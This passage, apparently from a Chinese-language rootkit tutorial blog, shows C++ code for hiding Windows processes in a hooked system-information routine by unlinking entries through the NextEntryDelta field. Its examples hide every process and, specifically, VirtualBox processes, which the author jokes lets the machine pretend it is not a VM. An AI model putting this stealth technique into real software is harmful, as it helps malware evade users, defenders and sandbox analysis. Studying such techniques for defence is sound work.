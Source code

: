 隐藏所有进程的实现非常简单，直接将第一个进程结构体的`NextEntryDelta`字段改为0即可。不过无法隐藏两个系统进程，原因未知。~~燃烧我的进程表~~

```cpp
curr->NextEntryDelta = 0;
```

![](http://ozhtfx691.bkt.clouddn.com//rootkit/proc/proc_rootkit_2.png)

### 隐藏指定进程

通过对结构体中的`process_name`字段进行比对，找出特定的进程，对其前一元素的`NextEntryDelta`进行修改。比如隐藏VBOX的所有进程

```cpp
if(0 == memcmp( process_name.Buffer, "VBox", 4))
{
    char _output[255];
    char _pname[255];
    memset(_pname, 0, 255);
    memcpy(_pname, process_name.Buffer, process_name.Length);
    iChanged = 1;
    m_UserTime.QuadPart += curr->UserTime.QuadPart;
    m_KernelTime.QuadPart += curr->KernelTime.QuadPart;
    if(prev)
    {
            if(curr->NextEntryDelta)
            {
                    //修改字段以跳过下一元素
                    prev->NextEntryDelta += curr->NextEntryDelta;
            }
            else
            {
                    //目标进程位于末尾，提前结束
                    prev->NextEntryDelta = 0;
            }
    }
    else
    {
            if(curr->NextEntryDelta)
            {
                    //目标进程位于开头，对第一个系统结构体的NextEntryDelta进行修改
                    (char *)SystemInformation += curr->NextEntryDelta;
            }
            else
            {
                    //系统中唯一进程
                    SystemInformation = NULL;
            }
    }
}
```

~~假装自己不是虚拟机~~

![](http://ozhtfx691.bkt.clouddn.com//rootkit/proc/proc_rookit_3.png)
